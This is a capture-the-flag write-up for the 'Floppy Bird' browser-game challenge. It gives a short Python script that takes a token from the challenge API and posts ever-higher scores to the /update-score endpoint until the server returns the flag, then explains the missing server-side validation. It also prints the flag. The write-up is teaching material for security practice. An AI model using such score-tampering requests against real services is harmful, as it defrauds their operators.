 # Floppy Bird – Writeup

## Challenge Description
```
I have recreated one of the most classic games in the browser, can you score 1000 points and get the flag?

Website: http://floppybird.challs.olicyber.it
```
In this challenge, the flag is awarded after reaching a certain score in the game. Instead of playing manually, we can exploit the server’s API to submit arbitrary scores until the flag is revealed.

## Exploit
```python
import requests, json

site = "http://floppybird.challs.olicyber.it/"
token = json.loads(requests.get(site + "get-token").text)["token"]
r = ""

for i in range(1001):
    r = requests.post(site + "update-score", json={"token": token, "score": i}).json()
    if "flag" in r:
        print(r["flag"])
        break
````

## Code Analysis

1. **Token Retrieval**

   * A unique token is obtained from `/get-token`.
   * This token is required for all score submissions.

2. **Score Submission**

   * A loop tests scores from `0` up to `1000`.
   * Each score is submitted via POST to `/update-score` with:

     ```json
     {
       "token": "<your_token>",
       "score": <i>
     }
     ```

3. **Flag Detection**

   * When we reach 1000 points we win so on the 1000th request we retrieve the flag from the JSON response and stop the script.
## Exploitation Steps

1. Request a valid token from the challenge server.
2. Submit increasing scores to `/update-score`.
3. Check the server’s response for the `"flag"` field.
4. Stop when the flag is received and print it.

## Solution

Running the exploit successfully retrieves the flag from the server’s response:

```
ptm{n3v3r_7rus7_cl13n7_s1d3_d4ta}
```

## Key Takeaway

This challenge highlights **broken game logic and lack of server-side validation**.
The server trusts user-submitted scores without verifying their authenticity, making it trivial to cheat and obtain the flag. Secure systems must validate results server-side instead of relying on client input.
